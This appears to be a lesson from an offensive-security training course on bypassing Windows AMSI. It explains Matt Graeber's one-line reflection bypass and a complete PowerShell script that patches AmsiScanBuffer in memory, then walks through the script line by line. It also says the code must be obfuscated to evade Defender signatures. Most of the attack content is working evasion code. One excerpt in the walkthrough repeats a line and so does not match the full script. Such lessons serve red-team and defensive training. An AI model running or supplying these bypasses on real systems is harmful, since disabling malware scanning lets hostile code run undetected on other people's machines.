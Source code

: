 Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell and C#.  

There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade

For more information about the variety of bypasses available, check out this GitHub repo, [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  


> [!info]
> We will be looking at the `Matt Graeber reflection method` as well as patching `amsi.dll`.



The first bypass we will be looking at utilizes native PowerShell reflection to set the response value of AMSI to `$null`. Find the PowerShell code written by Matt Graeber below.

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

The second method we will be looking at is patching amsi.dll written in PowerShell. This bypass is modified by BC-Security inspired by Tal Liberman, [https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py](https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py). RastaMouse also has a similar bypass written in C# that uses the same technique, [https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs).The bypass will identify DLL locations and modify memory permissions to return undetected AMSI response values.

```
$MethodDefinition = "  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetModuleHandle(string lpModuleName);  
  
    [DllImport(`"kernel32`")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
";  
  
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);  
[UInt32]$Size = 0x5;  
[UInt32]$ProtectFlag = 0x40;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);   
  
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

This may seem like a lot of fancy and chopped-up code if you are unfamiliar with Windows architecture and PowerShell, but we can break it up and identify what each section of code does.  

The first section of code lines 3 - 10 will use C# to call-in functions from Kernel32 to identify where amsi.dll has been loaded.

```
[DllImport(`"kernel32`")]  
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]  
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]  
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

Once the C# functions are called in, the code will use Add-type to load the C# and identify the `AmsiScanBuffer` string in lines 13 - 16. This string can be used to determine where `amsi.dll` has been loaded and the address location using `GetProcAddress`.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
```

The next section of code lines 17 - 23 will modify memory permissions and patch `amsi.dll` to return a specified value.

```
[UInt32]$Size = 0x5;  
[UInt32]$Size = 0x5;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

At this stage, we should have an AMSI bypass that partially works. Signatures for most AMSI bypasses have been crafted, so this means that AMSI and Defender themselves will catch these bypasses. This means <u>we will need to obfuscate our code</u> a slight bit to evade signatures. AMSI obfuscation will be covered in the next task.  

For more information about AMSI bypasses, check out the following resources.  

- [](https://offensivedefence.co.uk/posts/making-amsi-jump/)[https://offensivedefence.co.uk/posts/making-amsi-jump/](https://offensivedefence.co.uk/posts/making-amsi-jump/)
- [](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)[https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
- [](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)[https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)
- [](https://blog.f-secure.com/hunting-for-amsi-bypasses/)[https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
- [](https://www.contextis.com/us/blog/amsi-bypass)[https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)
- [](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)[https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)
- [https://amsi.fail/](https://amsi.fail/)[](https://amsi.fail/)
- [](https://rastamouse.me/blog/asb-bypass-pt2/)[https://rastamouse.me/blog/asb-bypass-pt2/](https://rastamouse.me/blog/asb-bypass-pt2/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)
- [https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)

